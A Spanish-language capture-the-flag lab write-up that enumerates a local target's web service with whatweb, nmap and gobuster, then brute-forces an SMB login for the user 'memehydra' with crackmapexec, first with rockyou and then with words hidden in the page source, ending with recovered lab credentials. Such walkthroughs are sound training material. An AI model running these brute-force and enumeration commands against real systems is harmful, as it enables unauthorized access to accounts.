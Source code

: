 Realizaremos un ataque de fuerza bruta para intentar encontrar su contrasena:
**Nota** No obtuvimos nada
```bash
crackmapexec smb 172.17.0.2 -u 'memehydra' -p /usr/share/wordlists/rockyou.txt 
```

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2 # No reporta nada
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
	No reporta nada

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,html,js,java,pl
```

- **Hallazgos**:
	No reporta nada

Ahora desde la web principal tenemos tres palabras ocultas que podemos ver desde el codigo fuente:
```bash
fuerzabrutasiempre
memesploit_ctf
memehydra
```

Usaremos este como diccionario para el usaurio `memehydra`
```bash
crackmapexec smb 172.17.0.2 -u 'memehydra' -p passwords.txt
SMB         172.17.0.2      445    4E876123A74E     [*] Windows 6.1 Build 0 (name:4E876123A74E) (domain:4E876123A74E) (signing:False) (SMBv1:False)
```

Tenemos las credenciales:
```bash
SMB         172.17.0.2      445    4E876123A74E     [+] 4E876123A74E\memehydra:fuerzabrutasiempre 
```
